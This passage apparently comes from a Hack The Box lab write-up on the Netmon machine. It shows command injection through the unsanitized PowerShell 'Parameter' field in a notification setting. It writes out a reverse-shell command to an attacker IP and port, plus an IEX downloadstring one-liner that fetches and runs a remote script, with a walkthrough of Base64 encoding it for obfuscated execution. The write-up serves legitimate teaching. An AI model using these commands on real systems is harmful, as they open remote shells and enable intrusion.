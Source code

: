 ### Exploiting Command Injection Vulnerability

To exploit this, I navigated to the “Notifications” section under “Account Settings” in the “Setup” dropdown menu:

![Navigating to Notifications](assets/img/Netmon/image%207.png)

> 💡 **Vulnerability Note**: An argument supplied in the “Parameter” field of the “Notifications” configuration is passed directly into the PowerShell script without any sanitization, allowing an attacker to inject arbitrary PowerShell code.

### Setting Up the Reverse Shell Environment

To prepare for a reverse shell, I first created the PowerShell command for establishing the connection:

```bash
┌──(kali㉿kali)-[~/Red_Team/HTB]
└─$ echo 'Invoke-PowershellTcp -Reverse -IPAddress 10.10.16.13 -Port 4444' >> /home/kali/Red_Team/Tools/Invoke-PowerShellTcp.ps1 
```

Next, I encoded the command to download and execute the reverse shell script, converting it to Base64 format:

```bash
┌──(kali㉿kali)-[~/Red_Team/HTB]
└─$ echo -n "IEX(new-object net.webclient).downloadstring('http://10.10.16.13:8080/Invoke-PowerShellTcp.ps1')" | iconv -t UTF-16LE | base64 -w0
SQBFAFgAKABuAGUAdwAtAG8AYgBqAGUAYwB0ACAAbgBlAHQALgB3AGUAYgBjAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAHMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANgAuADEAMwA6ADgAMAA4ADAALwBJAG4AdgBvAGsAZQAtAFAAbwB3AGUAcgBTAGgAZQBsAGwAVABjAHAALgBwAHMAMQAnACkA     
```

**iconv -t UTF-16LE**: This converts the text encoding of the PowerShell command to UTF-16LE (UTF-16 Little Endian), which is often required by Windows PowerShell for Base64-encoded commands. Windows PowerShell expects encoded commands in UTF-16LE, as it’s the default character encoding for PowerShell scripts.

**base64 -w0**: This takes the UTF-16LE encoded command and encodes it in Base64 format. The -w0 option ensures that the output is a single line without any line breaks, which is important for executing the encoded command smoothly.

### Modifying the Notification Parameter for Command Execution
